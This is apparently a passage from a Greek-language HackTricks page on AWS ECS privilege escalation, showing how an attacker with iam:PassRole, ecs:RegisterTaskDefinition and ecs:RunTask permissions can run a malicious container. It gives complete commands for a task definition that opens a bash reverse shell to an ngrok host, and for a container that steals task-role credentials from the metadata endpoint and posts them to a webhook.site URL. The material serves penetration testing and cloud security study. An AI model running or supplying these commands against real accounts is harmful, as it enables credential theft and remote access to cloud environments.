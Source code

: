 # AWS - ECS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## ECS

Περισσότερες **πληροφορίες για το ECS** στο:

{{#ref}}
../aws-services/aws-ecs-enum.md
{{#endref}}

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

Ένας επιτιθέμενος που καταχράται τα `iam:PassRole`, `ecs:RegisterTaskDefinition` και `ecs:RunTask` δικαιώματα στο ECS μπορεί να **δημιουργήσει ένα νέο task definition** με ένα **κακόβουλο container** που κλέβει τα metadata credentials και να **το τρέξει**.

{{#tabs }}
{{#tab name="Reverse Shell" }}
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
{{#endtab }}

{{#tab name="Webhook" }}

Δημιούργησε ένα webhook χρησιμοποιώντας έναν ιστότοπο όπως το webhook.site
```bash

# Create file container-definition.json
[
{
"name": "exfil_creds",
"image": "python:latest",
"entryPoint": ["sh", "-c"],
"command": [
"CREDS=$(curl -s http://169.254.170.2${AWS_CONTAINER_CREDENTIALS_RELATIVE_URI}); curl -X POST -H 'Content-Type: application/json' -d \"$CREDS\" https://webhook.site/abcdef12-3456-7890-abcd-ef1234567890"
]
}
]

# Run task definition, uploading the .json file
aws ecs register-task-definition \
```